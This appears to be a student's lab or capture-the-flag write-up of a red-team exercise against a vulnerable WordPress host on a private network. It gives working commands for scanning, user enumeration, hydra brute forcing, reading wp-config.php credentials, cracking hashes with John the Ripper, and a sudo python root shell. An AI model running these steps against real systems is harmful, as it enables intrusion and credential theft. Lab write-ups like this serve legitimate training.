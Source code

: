# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sv 192.168.1.0/24
```
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/nmap.PNG)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 ssh
  - Port 80 http
  - Port 111 rpcbind
  - Port 139 netbios-ssn
  - Port 445 netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Weak User Password (High Severity)
  - User Enumeration (Medium Severity)
  - User Privilege Escalation (High Severity)

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - Users were enumerated with wpscan, Brute Force attack against weak password, then I exploited open port 22
      - wpscan was used to enumerate the users on Target 1
      - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/wpscan.PNG)
   - User michael was targeted
   - Used hydra to brute force `$ hydra -l michael -p /usr/share/wordlists/dirb`
   - Capturing the first flag:
      - `ssh michael@192.168.1.110`
      - `cd /var/www/html`
      - `grep -ir flag1`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag1.PNG)
      
  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - The same process was used, but I used these commands:
      - `cd /var/www`
      - `ls' found flag2.txt

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag2.PNG)

  - `flag3`: afc01ab56b50591e7dccf93122770cd2 and `flag4`: 715dea6c055b9fe3337544932f2941ce
    - To find MySql database login information, this command was used: `cat /var/www/html/wordpress/wp-config.php`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20pword.PNG)
 
   - MySql was were flag3 and flag4 were found using these commands:
      - `mysql -u root -p'R@venSecurity'`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW tables;`
      - `SELECT * FROM wp_posts;`
      
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag3%20and%204.PNG)

  -Additionally, hashes for each user was found, and privelege escalation was exploited.
  
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20hashes.PNG)

   - I created a file with the hashes and used John the Ripper to crack them
      - `john hashes.txt -wordlist=/usr/share/wordlists/dirb/big.txt`
   - From there, I connected to Steven's account and open a python shell with root privilege
      - ssh steven@192.168.1.110
      - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/last%20photo.PNG)
